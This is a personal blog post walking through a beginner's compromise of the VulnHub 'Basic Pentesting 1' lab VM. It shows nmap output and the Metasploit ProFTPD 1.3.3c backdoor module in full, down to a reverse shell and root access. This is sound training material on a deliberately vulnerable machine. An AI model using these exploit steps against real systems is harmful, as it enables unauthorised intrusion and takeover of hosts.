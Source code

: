 ```yaml
---
layout: post
title:  "First Time Pentesting"
excerpt: "The start of my journey into hatland"
date:   2019-10-31 01:03:20 -0500
author: "Jake Gallow"
---
```


&nbsp;&nbsp;&nbsp;&nbsp;After all this time of being a fake hacker (aka someone who just uses linux and holds his nose up at other people) I finally decided to actually get my head into some real penetration testing.
 I popped open the first entry level vulnerable vm from vulnhub, [Basic Pentesting 1](https://www.vulnhub.com/entry/basic-pentesting-1,216/) to see what I'm getting into and how my skills stand.

&nbsp;&nbsp;&nbsp;&nbsp;The following details my process of what I did to crack this vm and gain root privelages.
 Unfortuantley there's no real instructions on what to do, so I just figured I'd start the vm and try to log in.

![VM Login](/assets/2019-10-31-first-time-pentesting/vm_login.png)

So there's 2 users: a named user (marlinspike) and a guest user.
 Not so sure what to do with that, so I'm just gonna try to take a guess at marlinspikes username.
 Let's try marlinspike (the username as the pw).
 ```
 login succeeded (use your imagination if you have to. its an ubuntu login ffs).
 ```

![Files](/assets/2019-10-31-first-time-pentesting/files.png)

Ok so there's a lot of files.
 Theres some gzipped files, and then a bunch of other junk.
 Time to just peek around and take note of anything useful.
 Interestingly enough theres a wordpress directory in that same folder.
 I'm not super well versed but i'm gonna guess that this vm is running a wordpress server.
 Wordpress has all kinds of vulnerabilities.

&nbsp;&nbsp;&nbsp;&nbsp;I have a feeling that actually logging into the vm isnt what you're supposed to do.
 Trying sudo give me root (with marlinspike as the pw), so thats obviously not how I'm supposed to go about this.
 I'm just gonna try to find the wordpress server from my host and try to get a remote shell (which is what probably is expected here).

 What I know about the wordpress server is that its gotta be running from some ip on my network, but which IP?
 Well, I know from `vboxmanage` the ip of the vm is `192.168.0.16`.
 Hitting that ip with `ping` I manage to get something back, so maybe navigating to it in firefox I'll find out a little more.


![Web Server](/assets/2019-10-31-first-time-pentesting/webpage.png)

 Bingo, theres the webpage!
 That's nice and all, but still not a whole lot to work with.

&nbsp;&nbsp;&nbsp;&nbsp;I've heard in these ctf like things theres generally some information hidden in the source code for the page.
 ```
 <html><head></head><body><h1>It works!</h1>
<p>This is the default web page for this server.</p>
<p>The web server software is running but no content has been added, yet.</p>

</body></html>
 ```
 Well no hint there, and it doesnt look like there's anything useful going on in the network tools in the inspector for FireFox either.
 Knowing this, I'll bet that this isn't like the JuiceShop ctf, where you can just search around and find the vulnerabilties.
 This is likely one where you are litterally trapped in the maze and have to use your instincts and tools to guide to the root of the issue.
 Unfortunately for me though, I dont know much about my tools.
 I still have my instincts though, and right now my instincts are still telling me that there's got to be something worth attackin on this server (probably wordpress).
 I just need to figure out what version of what thing to attack.

&nbsp;&nbsp;&nbsp;&nbsp;I did a little intro to nmap and I know that I have `nmap -A` which will give me some details about the host I'm scanning, so I'm gonna try that.
```
$ nmap -A 192.168.0.16

Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-30 22:54 CDT
Nmap scan report for 192.168.0.16
Host is up (0.00024s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.96 seconds
```

 I've got a little info from this.
 It did not turn up the wordpress server like i was expecting, but there is an ftp service active on tcp ::21.
 I have nothing else to go off of so I'm gonna try to go after the ftp service.

 Once again, not super well versed with my tools, but if there is a way to to beat my way into ProFTPD metasploit is gonna have it.
 I've learned that you can search exploits for known vulnerabilites in exploitDB, for which there is a command line tool for, or a web service.
 I'm going to try the web service first so I dont have to download the full db (if I was using Kali instead of Arch I would just update exploitdb, but I'm on an arch host right now).

&nbsp;&nbsp;&nbsp;&nbsp;According to [exploitDb](https://www.exploit-db.com/search?q=ProFTPD+1.3.3) there is a remote code executation vulnerability I can try to exploit.
 So I'm gonna try to load that into metasploit then go from there.

 Opening up metasploit console
 ```
 msfconsole

 msf5 > search proFTPD

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/freebsd/ftp/proftp_telnet_iac        2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (FreeBSD)
   1  exploit/linux/ftp/proftp_sreplace            2006-11-26       great      Yes    ProFTPD 1.2 - 1.3.0 sreplace Buffer Overflow (Linux)
   2  exploit/linux/ftp/proftp_telnet_iac          2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (Linux)
   3  exploit/linux/misc/netsupport_manager_agent  2011-01-08       average    No     NetSupport Manager Agent Remote Buffer Overflow
   4  exploit/unix/ftp/proftpd_133c_backdoor       2010-12-02       excellent  No     ProFTPD-1.3.3c Backdoor Command Execution
   5  exploit/unix/ftp/proftpd_modcopy_exec        2015-04-22       excellent  Yes    ProFTPD 1.3.5 Mod_Copy Command Execution
```
Our boy is number 4

```
msf5 > use exploit/unix/ftp/proftpd_133c_backdoor
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > set RHOST 192.168.0.16
RHOST => 192.168.0.16
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > show options

Module options (exploit/unix/ftp/proftpd_133c_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.0.16     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```
and time for the magic.

```
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > exploit

[*] Started reverse TCP double handler on 192.168.0.15:4444
[*] 192.168.0.16:21 - Sending Backdoor Command
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo UR0HgFV7llm3vRNu;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "UR0HgFV7llm3vRNu\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (192.168.0.15:4444 -> 192.168.0.16:55224) at 2019-10-30 23:29:47 -0500

whoami
root
```
 Holy crap metasploit is a monster!
 I'm in with next to nothing and I have a root shell.
 Based of the description of this problem I think I've solved the issue (and having the power of internet this seems to be the general solution as well).

## Conlusions
&nbsp;&nbsp;&nbsp;&nbsp;I've managed to get a root shell on the Basic Pentesting 1 vm so I've completed the scenario.
 I've learned quite a few things.
 1. Not all ctfs are going to give an explicit entry point.
 2. The entry point is often a locked door, and the name of the game is to break in.
 3. I seem to have decent enough instincts on what things to go after (though this is a very beginner box) from all the podcasts I listen to, but I dont know how to go after it or good knowledge of my tools. I should be learning more about what basic pentesting tools do. Maybe going through a Kali course would teach me that.
